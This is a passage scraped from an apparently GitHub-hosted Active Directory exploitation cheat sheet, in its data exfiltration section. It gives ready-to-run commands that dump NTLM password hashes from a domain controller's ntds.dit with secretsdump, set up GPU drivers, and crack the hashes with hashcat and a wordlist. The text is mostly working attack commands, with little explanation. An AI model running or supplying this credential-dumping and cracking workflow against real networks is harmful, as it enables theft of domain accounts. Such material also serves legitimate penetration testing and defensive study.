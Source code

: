 # impacketsecretsdump.py -ntds ntds.dit -system SYS -hashes lmhash:nthash LOCAL -outputfile ntlm-extract

* * *

### [![](data:image/svg+xml,%3csvg xmlns='http://www.w3.org/2000/svg' class='octicon octicon-link js-evernote-checked' viewBox='0 0 16 16' version='1.1' width='16' height='16' aria-hidden='true' data-evernote-id='305'%3e%3cpath fill-rule='evenodd' d='M7.775 3.275a.75.75 0 001.06 1.06l1.25-1.25a2 2 0 112.83 2.83l-2.5 2.5a2 2 0 01-2.83 0 .75.75 0 00-1.06 1.06 3.5 3.5 0 004.95 0l2.5-2.5a3.5 3.5 0 00-4.95-4.95l-1.25 1.25zm-4.69 9.64a2 2 0 010-2.83l2.5-2.5a2 2 0 012.83 0 .75.75 0 001.06-1.06 3.5 3.5 0 00-4.95 0l-2.5 2.5a3.5 3.5 0 004.95 4.95l1.25-1.25a.75.75 0 00-1.06-1.06l-1.25 1.25a2 2 0 01-2.83 0z' data-evernote-id='1017' class='js-evernote-checked'%3e%3c/path%3e%3c/svg%3e)](https://github.com/Integration-IT/Active-Directory-Exploitation-Cheat-Sheet/blob/master/N%20-%20Data%20Exfiltration/README.md#install-your-nvidia-driver-for-gpu-power)Install your NVIDIA Driver for GPU Power

apt install -y nvidia-driver nvidia-cuda-toolkit

apt install -y mesa-utils# CHECKnvidia-smi# CHECKnvidia-smi -i 0 -q# CHECKglxinfo | grep -i "direct rendering"

* * *

### [![](data:image/svg+xml,%3csvg xmlns='http://www.w3.org/2000/svg' class='octicon octicon-link js-evernote-checked' viewBox='0 0 16 16' version='1.1' width='16' height='16' aria-hidden='true' data-evernote-id='306'%3e%3cpath fill-rule='evenodd' d='M7.775 3.275a.75.75 0 001.06 1.06l1.25-1.25a2 2 0 112.83 2.83l-2.5 2.5a2 2 0 01-2.83 0 .75.75 0 00-1.06 1.06 3.5 3.5 0 004.95 0l2.5-2.5a3.5 3.5 0 00-4.95-4.95l-1.25 1.25zm-4.69 9.64a2 2 0 010-2.83l2.5-2.5a2 2 0 012.83 0 .75.75 0 001.06-1.06 3.5 3.5 0 00-4.95 0l-2.5 2.5a3.5 3.5 0 004.95 4.95l1.25-1.25a.75.75 0 00-1.06-1.06l-1.25 1.25a2 2 0 01-2.83 0z' data-evernote-id='1026' class='js-evernote-checked'%3e%3c/path%3e%3c/svg%3e)](https://github.com/Integration-IT/Active-Directory-Exploitation-Cheat-Sheet/blob/master/N%20-%20Data%20Exfiltration/README.md#cracking)Cracking

- -m 1000: NTLM | Operating Systems
- ntlm-extract.ntds: secretsdump outfile
- /usr/share/wordlists/rockyou.txt: plaintext wordlist
- -o: location of cracked hash

hashcat -m 1000 ntlm-extract.ntds /usr/share/wordlists/rockyou.txt -o cracked
cat cracked

## Database Hunting - MSSQL
